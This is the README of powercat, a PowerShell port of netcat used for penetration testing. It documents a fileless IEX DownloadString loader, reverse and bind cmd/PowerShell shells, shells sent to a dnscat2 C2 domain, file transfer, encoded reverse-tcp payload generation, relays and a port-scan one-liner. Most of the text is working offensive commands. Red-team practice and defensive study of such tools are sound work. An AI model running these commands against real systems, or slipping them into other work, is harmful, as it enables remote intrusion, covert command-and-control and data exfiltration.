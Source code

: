 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes

File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Recieve File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and serve shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns.
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        powercat -dns c2.example.com -e cmd

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        powercat -l -p 8000 -r dns:::c2.example.com

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -e cmd -g
    Generate a bind tcp encoded command which listens on port 8000:
        powercat -l -p 8000 -e cmd -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep

